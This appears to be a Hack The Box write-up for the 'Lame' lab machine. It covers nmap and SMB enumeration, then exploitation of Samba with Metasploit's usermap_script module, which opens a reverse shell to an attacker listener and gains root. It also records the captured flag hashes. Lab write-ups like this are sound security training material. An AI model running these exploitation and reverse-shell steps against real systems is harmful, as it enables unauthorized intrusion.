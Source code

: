 # HTB: Lame

## Engagement Overview
**Target:** Lame
**Box IP:** 10.10.10.3
**Local IP:** 10.10.10.152
**Date:** 2025-07-02

---

### Objectives
- Enumerate network services (SMB/FTP/SSH) and writable shares.  
- Exploit Samba (usermap_script) to gain command execution.  
- Escalate to root and capture flags.

---

## Service Enumeration

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```

**Relevant ports discovered:**  
- 21/tcp ftp (vsftpd)  
- 22/tcp ssh  
- 139/tcp netbios-ssn  
- 445/tcp microsoft-ds (Samba)  
- 3632/tcp distccd

SMB shares (from smbmap): `tmp` share is READ,WRITE — usable for uploads.

---

## Initial Access

### SMB foothold
```bash
smbmap -H 10.10.10.3
smbclient -N \\10.10.10.3\tmp
# connected to tmp share and uploaded/executed payload via exploit flow
```

### Exploitation attempted/used
- vsftpd 2.3.4 backdoor (CVE-2011-2523) noted but port filtered/unusable.  
- Successfully used `exploit/multi/samba/usermap_script` (Metasploit) to execute commands, resulting in a reverse shell to attacker listener.

```text
# msf console snippet
msf6 > use exploit/multi/samba/usermap_script
[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

Upgraded shell and spawned an interactive TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=0(root) gid=0(root)
```

---

## Privilege Escalation

- Post-exploit TTY indicates root obtained via exploit flow; no additional privesc steps required.

---

## House Cleaning / Post-Exploitation

**Flags:**  
- `user.txt`: `e95ac31f8132e26eac44c2fe58792cfa`  
- `root.txt`: `4f8f2ae18815f97ffdf7975965d6b624`

- Removed any uploaded artifacts where applicable.  

---

## Tools Utilized
- nmap, smbmap, smbclient, metasploit, nc, python

---

## Key Takeaways
- Writable SMB shares are useful for dropping/executing payloads.  
- Samba `usermap_script` exploit remains relevant for legacy systems.  
- Always test multiple attack vectors (FTP, SMB) when initial paths are filtered.

